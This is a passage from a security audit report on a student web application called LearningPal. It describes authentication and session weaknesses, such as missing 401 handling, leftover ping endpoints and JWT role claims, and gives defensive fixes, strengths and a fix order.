### [MEDIUM-04] API Fetch Client Lacks Global 401 Interceptor for Expired Sessions

* **File & Lines**: [`frontend/src/services/api.js#L46-L54`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/api.js#L46-L54)
* **What it is**: When a user's token expires mid-session, the backend responds with `401 Unauthorized`. [`api.js`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/api.js) wraps this into an error and throws it, but does not clear `localStorage` or trigger a redirect to `/login`.
* **Why it matters**: If a teacher leaves their laptop open overnight and clicks a button the next morning, requests fail with silent console errors or broken UI states rather than smoothly redirecting them to log back in.
* **Suggested Fix**:
  In [`api.js`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/api.js), intercept status 401:
  ```javascript
  if (response.status === 401) {
    localStorage.removeItem('learningpal_token');
    window.location.href = '/login?expired=true';
  }
  ```

---

### [LOW-01] Temporary `/ping` Endpoints Left Active in Codebase

* **File & Lines**: [`backend/src/main/java/com/learningpal/controller/TestPingController.java#L28-L46`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/TestPingController.java#L28-L46)
* **What it is**: [`TestPingController`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/TestPingController.java) exposes `/api/student/ping` and `/api/teacher/ping`.
* **Why it matters**: While properly guarded by role permissions, these endpoints reflect the active user's email back in the response. Test endpoints increase attack surface and should be removed before shipping to production.
* **Suggested Fix**:
  Delete [`TestPingController.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/controller/TestPingController.java) once real student and teacher feature endpoints are connected.

---

### [LOW-02] Missing Maximum Length Constraint on `fullName`

* **File & Lines**: [`backend/src/main/java/com/learningpal/dto/SignupRequest.java#L14-L15`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/dto/SignupRequest.java#L14-L15) & [`User.java#L18-L19`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/entity/User.java#L18-L19)
* **What it is**: `fullName` is marked `@NotBlank` in the DTO and `@Column(nullable = false)` in JPA, but has no `@Size(max = 100)` or database column length.
* **Why it matters**: A malicious user could submit a payload with a 50,000-character name string, wasting database buffer space or causing layout issues in admin tables.
* **Suggested Fix**:
  Add `@Size(min = 2, max = 100, message = "Full name must be between 2 and 100 characters")` on `SignupRequest.java`.

---

### [LOW-03] Authenticated Users Can Re-Visit `/login` and `/signup`

* **File & Lines**: [`frontend/src/App.jsx#L30-L31`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/App.jsx#L30-L31) & [`Login.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/Login.jsx)
* **What it is**: If an already logged-in student visits `/login` or `/signup`, the page displays the authentication form rather than automatically redirecting them to their portal (`/student`).
* **Why it matters**: Confuses users and allows them to overwrite their session without explicitly logging out.
* **Suggested Fix**:
  In [`Login.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/Login.jsx) and [`Signup.jsx`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/pages/Signup.jsx), add a check:
  ```javascript
  if (isAuthenticated && user) {
    const roleHomeMap = { STUDENT: '/student', TEACHER: '/teacher', ADMIN: '/admin' };
    return <Navigate to={roleHomeMap[user.role] || '/'} replace />;
  }
  ```

---

### [INFO-01] Role Included in Token Subject Claims

* **File & Lines**: [`backend/src/main/java/com/learningpal/config/JwtService.java#L44`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtService.java#L44)
* **What it is**: The user's role string is baked directly into the JWT payload (`claim("role", user.getRole().name())`).
* **Why it matters**: This makes JWT validation lightning fast because the server doesn't have to query the database. However, it also means if an administrator changes a user's role in MySQL, the user will continue to have their old permissions until their token expires.

---

### [INFO-02] Hardening of Gitignore and Environment Separation

* **File & Lines**: [`.gitignore#L24-L25`](file:///c:/Users/Marion%20Alfeche/.gitignore#L24-L25)
* **What it is**: The real `application.properties` is properly ignored by git, and a safe template `application.properties.example` is tracked.
* **Status**: Clean. No database passwords or JWT signing keys are committed in git history.

---

## 4. What is Done Well (Keep These Patterns!)

1. **Strict Password Hashing**: The backend uses Spring Security's [`BCryptPasswordEncoder`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L94), which automatically handles per-user cryptographic salts and work factor stretching.
2. **Strict Admin Signup Guard**: In [`AuthService.java#L51-L53`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/service/AuthService.java#L51-L53), the code explicitly rejects any signup request specifying `Role.ADMIN`. An attacker cannot escalate privileges simply by tampering with the JSON body.
3. **No Password Requirement Leak on Login**: While signup validates regex complexity, [`LoginRequest.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/dto/LoginRequest.java) intentionally omits password regex so attackers cannot deduce password composition rules from failed login payloads.
4. **Clean Error Envelope**: [`GlobalExceptionHandler.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/exception/GlobalExceptionHandler.java) wraps all errors into `{ "message": "..." }`, preventing raw Java stack traces, database schema names, and line numbers from leaking to clients.
5. **No Flash of Protected Content**: [`ProtectedRoute.jsx#L16-L27`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/components/ProtectedRoute.jsx#L16-L27) waits for session verification before rendering protected components, preventing unauthorized users from seeing cached UI fragments during page refresh.
6. **Stateless REST Policy**: Spring Security's `SessionCreationPolicy.STATELESS` ([`SecurityConfig.java#L55`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/SecurityConfig.java#L55)) ensures the server does not store bulky session state in memory, allowing easy horizontal scaling.

---

## 5. Recommended Fix Order (Prioritized)

1. **Fix Rejected Teacher Bypass (`CRITICAL-01`)**:
   Add a quick status check in [`JwtAuthFilter.java`](file:///c:/Users/Marion%20Alfeche/LearningPal/backend/src/main/java/com/learningpal/config/JwtAuthFilter.java) to confirm that the user's status in the database is `ACTIVE` before authenticating the request.
2. **Add 401 Auto-Logout Interceptor (`MEDIUM-04`)**:
   In [`frontend/src/services/api.js`](file:///c:/Users/Marion%20Alfeche/LearningPal/frontend/src/services/api.js), clear `localStorage` and redirect to `/login` when a 401 response occurs so users are never stuck on broken pages.
3. **Shorten JWT Expiry & Prepare Refresh Flow (`MEDIUM-02`)**:
   Lower the access token lifetime in `application.properties` from 24 hours down to 15 or 30 minutes.
4. **Move Token to HttpOnly Cookies for Production (`HIGH-01`)**:
   Migrate from browser `localStorage` to `HttpOnly`, `SameSite=Strict` cookies to immunize the application from token-theft XSS attacks.
5. **Add Login Rate Limiting (`HIGH-02`)**:
   Implement Bucket4j or a 5-attempt lockout on `POST /api/auth/login` to prevent automated credential guessing.

---

## 6. Questions to Ask Your Teacher or Team

1. *"For our semester demo, is it acceptable to keep JWTs in `localStorage`, or does the grading rubric require us to implement `HttpOnly` cookies and CSRF tokens?"*
2. *"Should administrators have automatic oversight access to view student and teacher pages (via a Spring Security `RoleHierarchy`), or should administrators strictly stay within `/admin`?"*
3. *"Once we move from prototyping to actual grading features, should we implement a database blacklist or check user status on every request so that revoking a teacher immediately terminates their session?"*
4. *"Would you prefer us to implement account lockout (e.g. 5 failed login attempts locks the user for 15 minutes) or an IP-based rate limiter on `/api/auth/login`?"*

